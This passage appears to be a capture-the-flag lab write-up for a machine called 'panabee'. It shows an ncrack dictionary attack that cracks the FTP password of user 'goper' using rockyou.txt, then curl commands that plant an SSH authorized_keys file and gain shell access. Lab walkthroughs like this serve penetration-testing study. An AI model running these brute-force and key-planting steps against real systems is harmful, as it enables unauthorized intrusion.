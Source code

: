 And I read that the `goper`'s password was renewed, and I think that the `FTP` service is the one that stores the backup copies, and maybe the password can be found with a dictionary attack.When I google `brute force ftp login`, then I find the post [brute forceftp credentials get server access](https://null-byte.wonderhowto.com/how-to/brute-force-ftp-credentials-get-server-access-0208763/), and it mentions the `ncrack` tool, When I use the `ncrack` command after reading the `--help` option, and I use the Rockyou list:
```shell
$ ncrack --user goper -P rockyou.txt ftp://192.168.56.121
192.168.56.121 21/tcp ftp: 'goper' 'spiderman'
192.168.56.121 21/tcp ftp: 'goper' 'hotmail'
```
And in less than 5 minutes, those results.I try to access with both passwords using `ftp` command, then it works with `goper:spiderman`, and I can see the `goper`'s home directory:

![evidence](./static/06-ftp.png)

## Exploitation

And it contains multiple interesting files, but I will try to create a `.ssh` directory, and I will upload a public SSH key, and if the server allows remote `SSH` connection, then I will be able to get the `goper`'s shell.
When I try it, and I use the `ssh-keygen` command:
```shell
$ ssh-keygen -t rsa -b 3072 -f ./id_rsa_goper -P "" -C "goper@panabee"
```
And I create the `.ssh` directory with the `curl` command:
```shell
$ curl 'ftp://goper:spiderman@panabee/.ssh/' --ftp-create-dirs
```
And I upload the public `SSH` key, and I give the proper permissions:
```shell
$ curl -T id_rsa_goper.pub \
> 'ftp://goper:spiderman@panabee/.ssh/authorized_keys' \
> -Q '-SITE CHMOD 644 backup.sh'
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa_goper goper@panabee
```